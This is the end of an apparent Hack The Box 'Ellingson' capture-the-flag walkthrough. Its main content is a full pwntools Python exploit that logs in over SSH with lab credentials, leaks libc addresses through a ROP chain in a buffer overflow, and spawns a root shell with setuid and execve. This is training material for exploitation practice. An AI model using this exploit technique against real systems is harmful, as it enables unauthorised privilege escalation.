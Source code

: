 I see. `root` logs in via the password-protected private key. Anyways, I'm not going to crack anything. Let's just retrieve `root.txt` and call it a day.

<a class="image-popup">
![85410364.png](/assets/images/posts/ellingson-htb-walkthrough/85410364.png)
</a>

:dancer:

## Afterthought

Because I'm always challenging myself, let's write another exploit that will give us an interactive `root` shell instead.

```python
from pwn import *
import binascii

context(terminal=["tmux", "new-windows"])
context(os="linux", arch="amd64")

s = ssh(host="10.10.10.139", user="margo", password="iamgod$08")
p = s.process("garbage")

junk = 'A' * 136

plt_main = p64(0x401619)
plt_puts = p64(0x401050)
got_puts = p64(0x404028)
pop_rdi  = p64(0x40179b)
pop_rsi  = p64(0x401799)

payload = junk + pop_rdi + got_puts + plt_puts + plt_main

p.sendline(payload)
p.recvuntil("access denied.")
leaked_puts = p.recv()[:8].strip().ljust(8, "\x00")
log.success("Leaked puts@GLIBC:  " + "0x" + binascii.hexlify(leaked_puts).decode("hex")[::-1].encode("hex"))
leaked_puts = u64(leaked_puts)

off_puts = 0x809c0
off_sys  = 0x4f440
off_exe  = 0xe4fa0
off_sh   = 0x1b3e9a
off_suid = 0xe5970

base_libc = leaked_puts - off_puts
log.success("GLIBC base address: " + "0x" + binascii.hexlify(p64(base_libc)).decode("hex")[::-1].encode("hex"))

libc_exe  = p64(base_libc + off_exe)
libc_sys  = p64(base_libc + off_sys)
libc_sh   = p64(base_libc + off_sh)
libc_suid = p64(base_libc + off_suid)

payload = junk + pop_rdi + p64(0) + libc_suid + pop_rdi + libc_sh + pop_rsi + p64(0) + p64(0xdeadbeef) + libc_exe

p.sendline(payload)
p.recvuntil("access denied.")
log.success("Enjoy your shell!")
p.interactive()
```

[1]: https://www.hackthebox.eu/home/machines/profile/189
[2]: https://www.hackthebox.eu/home/users/profile/30224
[3]: https://www.hackthebox.eu/